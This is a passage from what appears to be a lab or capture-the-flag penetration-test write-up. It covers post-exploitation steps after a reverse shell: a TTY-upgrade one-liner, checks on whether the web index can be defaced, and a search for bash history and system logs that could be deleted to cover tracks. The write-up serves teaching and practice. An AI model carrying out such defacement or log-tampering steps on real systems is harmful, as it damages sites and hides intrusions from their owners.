\item
  \textbf{Result} (received connection from victim)
  
\includegraphics{images/task2/reverse_shell.PNG}
\end{itemize}

\textbf{b}). look for file permissions of index page (navigate to
/var/www/html/htdocs),

\begin{Shaded}
\begin{Highlighting}[]
    \ExtensionTok{$}\NormalTok{ ls }\AttributeTok{{-}la}
    \FunctionTok{ls} \AttributeTok{{-}la}
    \ExtensionTok{total}\NormalTok{ 40}
    \ExtensionTok{drwSr{-}sr{-}x}\NormalTok{ 3 root  root 4096 May 10 07:23 .}
    \ExtensionTok{drwxr{-}xr{-}x}\NormalTok{ 6 root  root 4096 May 12 10:15 ..}
    \ExtensionTok{{-}rw{-}rw{-}rw{-}}\NormalTok{ 1 mysql root  141 May 10 07:23 file}
    \ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{ 1 root  root 6791 Apr  6  2014 htb.css}
    \ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{ 1 root  root  591 Apr  6  2014 htb.js}
    \ExtensionTok{drwxr{-}xr{-}x}\NormalTok{ 3 root  root 4096 Mar 20  2014 images}
    \ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{ 1 root  root 7080 May 12 11:06 index.php}
    \ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{ 1 root  root 1997 May 10 05:34 login.php}
\end{Highlighting}
\end{Shaded}

\begin{quote}
\texttt{index.php} is not writeable- hence defacing the obrtained
account is not possible.
\end{quote}

\textbf{c}). Escaping tty shell for better readability in terminal. -
payload used:

\begin{verbatim}
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
\end{verbatim}

\begin{itemize}
\item
  locating bash\_history.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{$}\NormalTok{ locate bash\_history}
\FunctionTok{locate}\NormalTok{ bash\_history}
\ExtensionTok{/home/kali/.bash\_history}
\ExtensionTok{$}\NormalTok{ cd /home/kali/}
\end{Highlighting}
\end{Shaded}
\item
  look for permissions

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{$}\NormalTok{ ls }\AttributeTok{{-}la} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ bash}

\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{  1 kali kali      1 Mar  3 16:41 .bash\_history}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{  1 kali kali    220 Feb 23 05:36 .bash\_logout}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{  1 kali kali   4705 Feb 23 05:36 .bashrc}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{  1 kali kali   3526 Feb 23 05:36 .bashrc.original}
\end{Highlighting}
\end{Shaded}

  \begin{quote}
  Since .bash\_history is not writable, deleting is not possible.
  \end{quote}
\item
  locating other log files

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{$}\NormalTok{ locate log }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ apache}
    \ExtensionTok{/etc/apache2/conf{-}available/other{-}vhosts{-}access{-}log.conf}
    \ExtensionTok{/etc/apache2/conf{-}enabled/other{-}vhosts{-}access{-}log.conf}
    \ExtensionTok{/etc/apache2/mods{-}available/log\_debug.load}
    \ExtensionTok{/etc/apache2/mods{-}available/log\_forensic.load}
    \ExtensionTok{/etc/logrotate.d/apache2}
    \ExtensionTok{/usr/lib/apache2/modules/mod\_log\_debug.so}
    \ExtensionTok{/usr/lib/apache2/modules/mod\_log\_forensic.so}
    \ExtensionTok{/usr/share/apache2/icons/openlogo{-}75.png}
    \ExtensionTok{/usr/share/doc/apache2/changelog.Debian.gz}
    \ExtensionTok{/usr/share/doc/apache2/changelog.gz}
    \ExtensionTok{/usr/share/doc/apache2{-}bin/changelog.Debian.gz}
    \ExtensionTok{/usr/share/doc/apache2{-}bin/changelog.gz}
    \ExtensionTok{/usr/share/doc/apache2{-}data/changelog.Debian.gz}
    \ExtensionTok{/usr/share/doc/apache2{-}utils/changelog.Debian.gz}
    \ExtensionTok{/usr/share/doc/apache2{-}utils/changelog.gz}
    \ExtensionTok{/usr/share/doc/libapache{-}pom{-}java/changelog.Debian.gz}
    \ExtensionTok{/var/lib/apache2/conf/enabled\_by\_maint/other{-}vhosts{-}access{-}log}
    \ExtensionTok{/var/log/apache2}
\end{Highlighting}
\end{Shaded}
\item
  navigate to /var/log/

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{$}\NormalTok{ cd /var/log}
\end{Highlighting}
\end{Shaded}
\item
  look for file permissions

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls} \AttributeTok{{-}la}
\ExtensionTok{total}\NormalTok{ 5500}
\ExtensionTok{drwxr{-}xr{-}x}\NormalTok{  19 root     root               4096 May 22 04:44 .}
\ExtensionTok{drwxr{-}xr{-}x}\NormalTok{  12 root     root               4096 Apr 16 16:32 ..}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root              25060 May 22 08:54 Xorg.0.log}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root              54260 May 19 04:44 Xorg.0.log.old}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root              24191 May 15 06:21 Xorg.1.log}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root              24195 May 15 05:31 Xorg.1.log.old}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root                516 May  4 10:15 alternatives.log}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root               1680 Apr 28 06:12 alternatives.log.1}
\ExtensionTok{{-}rw{-}r{-}{-}r{-}{-}}\NormalTok{   1 root     root               6567 Mar  9 10:10 alternatives.log.2.gz}
\ExtensionTok{drwxr{-}x{-}{-}{-}}\NormalTok{   2 root     adm                4096 May 19 04:04 apache2}
\ExtensionTok{drwxr{-}xr{-}x}\NormalTok{   2 root     root               4096 May 15 19:06 apt}
\ExtensionTok{{-}rw{-}r{-}{-}{-}{-}{-}}\NormalTok{   1 root     adm               67039 May 22 08:55 auth.log}
\ExtensionTok{{-}rw{-}r{-}{-}{-}{-}{-}}\NormalTok{   1 root     adm              316551 May 16 04:35 auth.log.1}
\ExtensionTok{{-}rw{-}r{-}{-}{-}{-}{-}}\NormalTok{   1 root     adm               11047 May  8 15:39 auth.log.2.gz}
\ExtensionTok{{-}rw{-}r{-}{-}{-}{-}{-}}\NormalTok{   1 root     adm               10748 May  1 18:55 auth.log.3.gz}
\ExtensionTok{{-}rw{-}r{-}{-}{-}{-}{-}}\NormalTok{   1 root     adm                5532 Apr 25 04:22 auth.log.4.gz}
\ExtensionTok{{-}rw{-}{-}{-}{-}{-}{-}{-}}\NormalTok{   1 root     root               5501 May 19 04:45 boot.log}
\ExtensionTok{{-}rw{-}{-}{-}{-}{-}{-}{-}}\NormalTok{   1 root     root               5501 May 14 02:51 boot.log.1}
\ExtensionTok{{-}rw{-}{-}{-}{-}{-}{-}{-}}\NormalTok{   1 root     root               5501 Apr 30 07:39 boot.log.2}
\ExtensionTok{{-}rw{-}{-}{-}{-}{-}{-}{-}}\NormalTok{   1 root     root               6759 Apr 25 04:22 boot.log.3}
\ExtensionTok{{-}rw{-}{-}{-}{-}{-}{-}{-}}\NormalTok{   1 root     root               5451 Apr 19 00:49 boot.log.4}
\ExtensionTok{{-}rw{-}{-}{-}{-}{-}{-}{-}}\NormalTok{   1 root     root              66466 Apr  2 05:52 boot.log.5}
\end{Highlighting}
\end{Shaded}

  \begin{quote}
  All the files found are not writeable by service account \texttt{www}
  which we exploited.
  \end{quote}
\end{itemize}
